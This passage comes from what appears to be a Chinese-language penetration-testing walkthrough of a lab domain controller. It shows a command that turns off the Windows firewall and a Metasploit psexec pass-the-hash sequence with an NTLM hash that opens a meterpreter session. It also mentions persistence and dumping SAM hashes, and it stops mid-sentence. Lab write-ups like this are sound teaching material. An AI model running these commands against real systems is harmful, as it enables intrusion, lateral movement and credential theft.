   
之后, 先利用前面获取到的
```
shell
```

  
关闭一下防火墙: 
```
netsh advfirewall set allprofiles state off
```

  
, 接着便可以使用
```
PSEXEC
```

  
模块上线
```
MSF
```

  
并进行后续的操作了.  

```
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:028b70314013e1372797cff51298880e
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.8
set lport 4446
run
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OYmQbs7cIiahGrlVmS9m57Zicj6Y3ILnAcY9pa7Nu38PWAn806heMLVhw/640?wx_fmt=png&from=appmsg "")  
  
需要注意的是, 在做完权限维持后要及时恢复域控的密码, 不然域控会脱域.  
  
我们先导出
```
SAM
```

  
中原来的
```
hash
```

  
, 利用
```
MSF
```

  
的
```
shell
```
